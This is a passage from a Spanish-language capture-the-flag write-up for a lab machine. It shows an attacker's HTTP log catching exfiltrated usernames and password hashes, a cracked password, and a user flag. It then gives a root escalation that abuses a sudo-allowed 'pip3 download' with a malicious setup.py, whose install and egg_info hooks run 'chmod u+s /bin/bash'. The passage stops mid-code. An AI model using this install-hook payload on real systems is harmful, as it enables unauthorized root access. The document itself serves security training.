 ```sql
10.10.11.210 - - [16/Jul/2023 11:18:23] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:24] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:24] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:25] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:25] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:25] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:26] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:26] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:27] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:27] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:27] "GET /?username=john HTTP/1.1" 200 -
```

Ahora tenemos contraseñas hasheadas, podemos tratar de romper la de **john** con [[hashcat]] o mediante alguna página como [hashes.com](https://hashes.com/en/decrypt/hash). Si lo hacemos vemos que la contraseña es:

```hash
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You
```

Y ya podemos acceder por [[22-ssh]]. Y podemos leer la **flag de ususario** (`1459c8da1c8e0d603ade5a0a53e3ed5c`).

## Escalada de privilegios(root)

Si enumeramos los archivos que podemos ejecutar como **sudo**:

```bash
sudo -l
```
```sudo -l
User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

Vemos que podemos descargar un archivo con extensión *tar.gz*, que se encuentre en el servicio **gogs** que vimos antes, mediante **pip download**. Si buscamos por internet encontraremos que mediante dicho comando podemos llegar a ejecutar un comando (enlace al [artículo](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)). Lo primero es crear el script que se ejecutará, que cambiará los permisos de la [[bash]]:

```python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("chmod u+s /bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
```